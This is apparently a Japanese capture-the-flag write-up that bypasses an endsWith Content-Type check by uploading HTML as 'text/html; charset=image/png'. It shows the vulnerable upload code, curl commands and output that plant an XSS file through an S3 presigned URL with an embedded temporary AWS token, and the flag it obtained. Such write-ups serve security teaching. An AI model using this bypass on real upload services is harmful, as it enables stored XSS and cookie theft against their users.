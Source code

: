 # Is the end safe?:Validation Bypass:50pts
Is Content-Type secure if the end matches?  

- [Target](https://dlp011tu1iwaw.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1cpftRxj350dw-mJQRIv9kZEyGXO5fp9a/view?usp=drive_link)  

※ If no announcement is made, all "Crawler" source codes are the same.  

[https://dlp011tu1iwaw.cloudfront.net/](https://dlp011tu1iwaw.cloudfront.net/)  

# Solution
URLとアプリケーションのソースが渡される。  
クローラは[Server Side Upload](../Server_Side_Upload)と同様なようだ。  
アクセスすると同様のファイルアップロードサイトのようだ。  
![site.png](site/site.png)  
アプリケーションの主要ソースは以下のようであった。  
```ts
~~~
server.post<{
  Body: {
    contentType: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.contentType || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const contentTypeValidator = (contentType: string) => {
    if (contentType.endsWith('image/png')) return true;
    if (contentType.endsWith('image/jpeg')) return true;
    if (contentType.endsWith('image/jpg')) return true;
    return false;
  };

  if (!contentTypeValidator(request.body.contentType)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: request.body.contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type', 'content-length']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
~~~
```
`contentTypeValidator`で末尾が`'image/png'`、`'image/jpeg'`、`'image/jpg'`のどれかであるかを`endsWith`を用いてチェックしている。  
このバリデーションをバイパスする問題のようだ。  
[MDN](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Type)を見ると`text/html; charset=UTF-8`が真っ先に目に入る。  
`text/html; charset=image/png`としてやるとHTMLとして読み込めそうだ。  
末尾は`image/png`なので、バリデーションも突破できる。  
近年では`charset=UTF-7`にするXSSが使えなくなっているため、charsetが壊れていてもブラウザがよしなにやってくれそうである。  
アップロードするファイルはServer Side Uploadと同じ、XSSを含むHTMLを用いる。
```bash
$ curl -X POST -H 'Content-Type: application/json' -d '{"contentType":"text/html; charset=image/png","length":221}' --upload-file xs3.html 'https://dlp011tu1iwaw.cloudfront.net/api/upload'
{"url":"https://uploadbucket-5b1bc63390-4-1-upload.s3.ap-northeast-1.amazonaws.com/upload/4acfd6ad-3216-4be6-ac80-886a3249f16d?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4LTEG7VQV%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T043821Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEMz%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkYwRAIgec%2BL2XRvekZf3ckqOadQubRL5bzVSrpJSGgDSWzbQIICIGO%2F8xRrE5so0FPRKVjlgLvcnX1m5JLMjSdWtonxiV1hKrsDCOb%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQARoMMzA4NTIxNDA3NzM2Igx%2BWaG3GbVKIrTd3nYqjwMqR4arvAkSqSe5obWsG%2F3fRFlDzowIkLCiEOnvBjaY%2BBfCCkeMSYBCrbd0QacasV%2BmupPyypluCgb7AstAwA2QNIlsYWnF%2BjbXEEwcMrhEMtYHRTA7%2FPMWqShqUJH8UEzpHOfIPcBAFaRb%2FwOZ9zwgRIZxJ%2B2EeT3sD65UHI5I01UMgpYV1TVSX3wXWm48%2Bu%2FbdWEOngbPJd%2BEAtt9Ls2eo3NFmCFf%2BRmwh5fIPQYC15JLPZ56B5mV3x2zkEoLFE%2FXq0eGynlNJi6zN%2B74gf2M6%2FC4L2lIaV9g7m%2F%2BH54ai%2BQGDIOT1fNZPHL%2F3f7pQXtRs42SQCve%2FrSCim%2BhIavStwhsMS743AR88kXQA6LZ7g%2BGA%2BO4rH%2BaGaZUW51jLjHTSECY34Qg2c8Ubf9NWfmjd8lN0%2Bu64ztyDq9T7MLmwv6IAADG6eI1axMEx4aHfDbZUVsRHRKm%2Bs%2FoLpZhSJm7k%2FVDTVuPlAtT8CKozhKQFi0PcNH1x81jvkQwYu7IqGt1trlnN7L9s5vbpDbpJfAwu4uZsAY6nwHzJNwnyeAow4QIX7xu5LEauy6gP21mzMnoebWJcMT4jarj1ZEgqb8V%2FzncDB6rZJ1pwgmRCAf7%2F9lzzX%2BRiGXMj%2FemNSNtiQuc8Ko%2FG5xyNm1RItb9AFlC8oflaP%2FTTLKulc4GdkpVIxjuvVqcuN%2F6eg1NzMzJymm5rUO6la4kE%2FNebMAziH4y6MItTuZ5jzGGiVAPSYDFJyNh13h9L6I%3D&X-Amz-Signature=5fd329243bd570110979a444acb6f27489571090344972b604f4dde6465c01bf&X-Amz-SignedHeaders=content-length%3Bcontent-type%3Bhost&x-id=PutObject","filename":"4acfd6ad-3216-4be6-ac80-886a3249f16d"}
$ curl -X PUT -H 'Content-Type: text/html; charset=image/png' --upload-file xs3.html 'https://uploadbucket-5b1bc63390-4-1-upload.s3.ap-northeast-1.amazonaws.com/upload/4acfd6ad-3216-4be6-ac80-886a3249f16d?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4LTEG7VQV%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T043821Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEMz%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkYwRAIgec%2BL2XRvekZf3ckqOadQubRL5bzVSrpJSGgDSWzbQIICIGO%2F8xRrE5so0FPRKVjlgLvcnX1m5JLMjSdWtonxiV1hKrsDCOb%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQARoMMzA4NTIxNDA3NzM2Igx%2BWaG3GbVKIrTd3nYqjwMqR4arvAkSqSe5obWsG%2F3fRFlDzowIkLCiEOnvBjaY%2BBfCCkeMSYBCrbd0QacasV%2BmupPyypluCgb7AstAwA2QNIlsYWnF%2BjbXEEwcMrhEMtYHRTA7%2FPMWqShqUJH8UEzpHOfIPcBAFaRb%2FwOZ9zwgRIZxJ%2B2EeT3sD65UHI5I01UMgpYV1TVSX3wXWm48%2Bu%2FbdWEOngbPJd%2BEAtt9Ls2eo3NFmCFf%2BRmwh5fIPQYC15JLPZ56B5mV3x2zkEoLFE%2FXq0eGynlNJi6zN%2B74gf2M6%2FC4L2lIaV9g7m%2F%2BH54ai%2BQGDIOT1fNZPHL%2F3f7pQXtRs42SQCve%2FrSCim%2BhIavStwhsMS743AR88kXQA6LZ7g%2BGA%2BO4rH%2BaGaZUW51jLjHTSECY34Qg2c8Ubf9NWfmjd8lN0%2Bu64ztyDq9T7MLmwv6IAADG6eI1axMEx4aHfDbZUVsRHRKm%2Bs%2FoLpZhSJm7k%2FVDTVuPlAtT8CKozhKQFi0PcNH1x81jvkQwYu7IqGt1trlnN7L9s5vbpDbpJfAwu4uZsAY6nwHzJNwnyeAow4QIX7xu5LEauy6gP21mzMnoebWJcMT4jarj1ZEgqb8V%2FzncDB6rZJ1pwgmRCAf7%2F9lzzX%2BRiGXMj%2FemNSNtiQuc8Ko%2FG5xyNm1RItb9AFlC8oflaP%2FTTLKulc4GdkpVIxjuvVqcuN%2F6eg1NzMzJymm5rUO6la4kE%2FNebMAziH4y6MItTuZ5jzGGiVAPSYDFJyNh13h9L6I%3D&X-Amz-Signature=5fd329243bd570110979a444acb6f27489571090344972b604f4dde6465c01bf&X-Amz-SignedHeaders=content-length%3Bcontent-type%3Bhost&x-id=PutObject'
```
アップロードに成功したらファイル名から`https://dlp011tu1iwaw.cloudfront.net/upload/4acfd6ad-3216-4be6-ac80-886a3249f16d`とURLがわかるので、クローラに投げてやる。  
すると以下のリクエストが届く。  
```
GET
/?satoki=flag=flag{97ce55c30c8dc3a34cd73bbf3f49c2bb15a89617}
```
flagが得られた。  

## flag{97ce55c30c8dc3a34cd73bbf3f49c2bb15a89617}